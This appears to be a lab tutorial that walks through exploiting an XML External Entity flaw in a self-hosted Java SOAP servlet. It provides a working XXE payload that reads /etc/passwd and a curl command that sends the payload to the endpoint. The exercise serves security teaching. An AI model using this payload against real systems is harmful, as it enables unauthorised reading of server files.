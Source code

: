 ### **a. Understand the XXE Vulnerability**

- **XML External Entity (XXE) Injection**: An attack that exploits vulnerable XML parsers to process external entities, allowing attackers to read files, perform SSRF, etc.
- **In Our Setup**: The Java servlet processes XML input without disabling external entity resolution.

### **b. Tools You'll Need**

- **HTTP Client**: Tools like **cURL**, **Postman**, or **Burp Suite**.
- **XML Knowledge**: Ability to craft custom XML payloads.

### **c. Craft a Malicious XML Payload**

Create a file named `malicious_payload.xml` with the following content:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ELEMENT root ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>&xxe;</root>
```

- **Explanation**:
  - **DOCTYPE Declaration**: Introduces an external entity.
  - **&xxe;**: This entity will be replaced with the content of `/etc/passwd`.

### **d. Send the Payload to the Server**

Use `cURL` to send the malicious XML to the server:

```bash
curl -X POST -H "Content-Type: application/xml" --data @malicious_payload.xml http://<EXTERNAL_IP>/SOAPService
```

- Replace `<EXTERNAL_IP>` with the instance's external IP address.

### **e. Analyze the Response**

- **Expected Result**: The server should respond with the contents of the `/etc/passwd` file embedded in the XML response.
- **Troubleshooting**:
  - If you don't get the expected response, check firewall rules, ensure the service is running, and verify the endpoint.

### **f. Document Your Findings**

- Note the steps you took to exploit the vulnerability.
- Save any scripts or payloads used.

---
